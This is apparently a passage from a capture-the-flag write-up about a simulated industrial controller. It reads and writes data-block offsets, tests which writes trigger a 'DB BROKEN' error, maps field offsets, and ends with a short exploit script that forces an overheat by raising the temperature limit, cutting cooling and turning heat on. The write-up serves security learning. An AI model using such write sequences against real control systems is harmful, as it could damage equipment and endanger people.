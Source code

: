 ![alt text](assets/server-out-of-bounds.png)

If we read the logs from DB4 we can observe that a `DB BROKEN` error occured.

```python
read(4, 0, 50)

DB4 [offset 0, size 50]: STATE:RUNNING ERR:0 LOG:DB BROKEN
```
.

### Testing Unauthorized Writes

Let’s test by modifying SETPOINT in DB1, which isn’t part of our required changes.

```python
write(1, 16, "SETPOINT:23C")
```
As expected, altering a locked field like `SETPOINT` triggers DB BROKEN.

![alt text](assets/server-db-error.png)

## Mapping Offsets

To proceed, we need precise offsets for each value. From the bound check we can assume that the target temprature can't be larger than the MAX temp so we should modify this field first.

- MAX:30C (29-35, 7 bytes)
- TARGET-TEMP:20C (0-14, 15 bytes)
- DB2: FAN:50% (0-6, 7 bytes).
- DB3: COOL:75% (8-15, 8 bytes).
- DB5: HEAT:OFF (0-7, 8 bytes).

We can automate the process by writing an exploit script as shown below.

```python
print("\nExecuting overheat sequence:")

    write(1, 29, "MAX:65")       

    time.sleep(1)                 

    write(2, 0, "FAN:99%")      

    time.sleep(1)

    write(3, 8, "COOL:10%")       

    time.sleep(1)

    write(5, 0, "HEAT:ON ")      

    time.sleep(1)

    write(1, 0, "TARGET-TEMP:50C")              
```